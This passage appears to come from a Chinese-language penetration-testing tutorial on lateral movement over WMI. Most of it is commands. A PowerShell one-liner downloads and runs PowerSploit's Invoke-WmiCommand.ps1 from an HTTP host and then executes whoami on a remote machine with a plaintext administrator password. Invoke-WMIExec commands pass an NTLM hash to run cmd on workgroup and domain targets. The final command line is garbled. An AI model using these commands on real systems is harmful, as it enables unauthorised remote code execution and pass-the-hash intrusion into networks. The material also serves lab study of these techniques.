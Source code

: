 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f1602e2d8ec1cb34.png)

3192进程对应的cmd.exe

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0172e722a47d74b116.png)

**<a class="reference-link" name="Invoke-WmiCommand"></a>Invoke-WmiCommand**

> ***注意**：Invoke-WmiCommand.ps1为PowerSploit内置利用脚本，以下示例在Windows2008R2、Windows2012R2、Windows2016均测试成功。*

```
IEX....               #下载脚本并导入系统
$User                 #目标系统用户名
$Password             #目标系统密码
$Cred                 #账号密码整合，导入Credential
$Remote               #远程运行指定命令或程序
$Remote.PayloadOutput #将执行结果输出到屏幕上
#####---------------------------#####

IEX(New-Object Net.Webclient).DownloadString('http://192.168.8.190:8000/Invoke-WmiCommand.ps1')
$User = "WIN-D5IP32RU4A9\administrator"
$Password = ConvertTo-SecureString -String "win@123" -AsPlainText -Force
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
$Remote = Invoke-WmiCommand -Payload `{`whoami`}` -Credential $Cred -ComputerName 192.168.8.179
$Remote.PayloadOutput
```

执行成功，whoami的命令得到回显

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01905be14b18536c2a.png)

**<a class="reference-link" name="Invoke-WMIExec.ps1"></a>Invoke-WMIExec.ps1**

```
Invoke-WMIExec -Target 192.168.0.110  -Username Administrator -Hash 3edc68a5debd735545ddf69fb3c224a8 -Command "cmd /c ipconfig &gt;&gt;c:\ipconfig.txt" -Verbose
```

在工作组中内执行该PS1脚本

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01c43773ded5c74f7b.png)

[![](https://p3.ssl.qhimg.com/t019cec4e92569fc68e.png)](https://p3.ssl.qhimg.com/t019cec4e92569fc68e.png)

```
Invoke-WMIExec -Target 10.10.0.10 -Domain test1.com -Username Administrator -Hash 3edc68a5debd735545ddf69fb3c224a8 -Command "cmd /c ipconfig &gt;&gt;c:\ipconfig.txt" -VerboseSharp-WMIExec
```
